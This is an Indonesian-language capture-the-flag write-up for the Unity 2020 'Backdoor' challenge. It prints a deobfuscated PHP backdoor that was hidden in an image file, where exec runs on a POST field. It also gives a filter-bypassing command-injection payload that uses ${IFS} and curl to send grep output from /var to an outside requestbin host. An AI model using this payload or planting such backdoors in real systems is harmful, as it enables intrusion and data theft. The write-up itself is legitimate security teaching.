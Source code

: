 ```yaml
---
title: Writeup CTF Unity 2020 - Backdoor
author: cacadosman
type: post
date: 2020-03-16T00:00:00+00:00
url: /writeup-ctf-unity-2020-backdoor/
comments: true
categories:
    - CTF
    - Cyber Security

---
```

Writeup CTF Unity 2020 - Backdoor. Halo semua, sekarang kita akan membahas cara menyelesaikan soal Backdoor pada CTF Unity 2020.   

URL Challenge: http://68.183.176.121/


Diberikan sebuah sourcecode yang didalamnya terdapat sebuah backdoor.
Benar saja, terdapat source yang mencurigakan pada file **./assets/img/default.jfif** 
Namun, file tersebut masih terobfuscate, sehingga kita rapikan kodenya agar mudah dibaca.

Berikut adalah hasil kode yang sudah dirapikan:
```php
<?php 

include "variables.php";


$kadsooasd="st";
$ldksadsakla="ev";
$lkklklkdasl="r";
$strrev=$kadsooasd.$lkklklkdasl.$lkklklkdasl.$ldksadsakla; // strrev
$hello = "bjlgqipqipeaelohasnda";
$hello.=$hello[strlen($hello)-7];
$hello.=$hello[2];
$hello.=$hello[strlen($hello)-10];
$hello.=$hello[10];
$hello.=$hello[strlen($hello)-10];
$hello=substr($hello,strlen($hello)-(ord($hello[4])-ord($hello[2])));
$hello=@$strrev($hello);


function shell($lkklklkdaslmd){
    include "variables.php";
    return @$$$$kamu($lkklklkdaslmd); //die
};

function title($string){
    include "variables.php";
    global $strrev;
    $date = date('Y-m-d');
    $kadsooasds = @$strrev(chr(111)."h".$$$$$heker[0].$$dia[2]); //echo
    echo $kadsooasds;
    $string = str_replace(" ","_",$string);
    $ret=$$$$$$$kamu.$$$mati[0]; //exec
    return @$ret("$kadsooasds \"$string-$date.txt\""); 
}

if (isset($_POST['name'], $_POST['email'], $_POST['subject'],
$_POST['message'])){ 
    if (!empty(strpos("unity $_POST[message]", $hello))){
        $f = fopen("./uny/mail/".title(htmlentities($_POST['name'])), 'w');
        // echo $f;
        $isi = "From\t\t: $_POST[email]
Subject\t\t: $_POST[subject]
Message\t\t: $_POST[message]";
        fwrite($f, $isi);
        die("Done");
    }
} 
?>
```

Hal yang mencurigakan adalah, pada baris kode:
```php
return @$ret("$kadsooasds \"$string-$date.txt\"");
```

Kode tersebut melakukan return fungsi **exec** yang dapat mengakibatkan **Remote Code Execution**. Jika diterjemahkan, kode tersebut mengeksekusi:
```php
return exec("echo \"$string-$date.txt\"");
```

Dimana kita bisa mengubah nilai dari variabel **$string** berdasarkan parameter **name** pada metode **POST**. Sialnya, terdapat fungsi **htmlentities** dan fungsi yang melakukan replace spasi menjadi underscore, sehingga untuk membypassnya menjadi sulit.

Sehingga, untuk membypass filter, kita akan gunakan beberapa trik berikut:
- Spasi diganti dengan **${IFS}**
- Karena tidak bisa menggunakan single dan double quotes, kita akan menggunakan **$()** untuk mengeksekusi command bash.
- Karena tidak ada outputnya (blind), kita akan melempar hasil dari command yang kita inject menggunakan curl ke **requestbin** dengan perintah `curl${IFS}--data${IFS}{a=command}${IFS}https://iniurlpokoknya.com`.
- Agar data yang dikirimkan tidak error, kita akan convert outputnya menjadi base64 dengan command `command|base64${IFS}-w${IFS}0`

Maka hasil akhir payloadnya sebagai berikut:
```bash
$(curl${IFS}--data${IFS}{a=$(grep${IFS}-r${IFS}UNITY${IFS}/var|base64${IFS}-w${IFS}0)}${IFS}https://envcnlmm9u3oa.x.pipedream.net)
```

Terus flagnya mana? 
Jadi flagnya kita kirim ke url https://enkak77rjv029.x.pipedream.net (requestbin) menggunakan curl dan diencode menjadi base64.
![RequestBin](/requestbin.PNG)

Lalu kita decode base64 nya
![RequestBin](/backdoorflag.PNG)

Maka kita berhasil mendapatkan flagnya ^_^

Sekian pembahasan yang saya sampaikan.
Apabila terdapat kesalahan baik yang disengaja dan tidak, saya mohon maaf dan tolong untuk dikoreksi.

Semoga artikel ini dapat bermanfaat.  
Terima kasih.